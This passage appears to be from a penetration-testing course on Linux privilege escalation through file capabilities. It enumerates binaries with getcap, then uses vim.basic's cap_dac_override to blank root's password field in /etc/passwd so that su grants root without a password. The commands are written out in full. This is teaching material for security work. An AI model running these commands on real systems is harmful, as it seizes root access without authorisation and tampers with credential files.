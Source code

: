 ```shell-session
$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

This one-liner uses the `find` command to search for all binary executables in the directories where they are typically located and then uses the `-exec` flag to run the `getcap` command on each, showing the capabilities that have been set for that binary. The output of this command will show a list of all binary executables on the system, along with the capabilities that have been set for each.

***

## **Exploiting Capabilities**

If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:

```shell-session
$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell-session
$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
al1abb@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
al1abb@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.
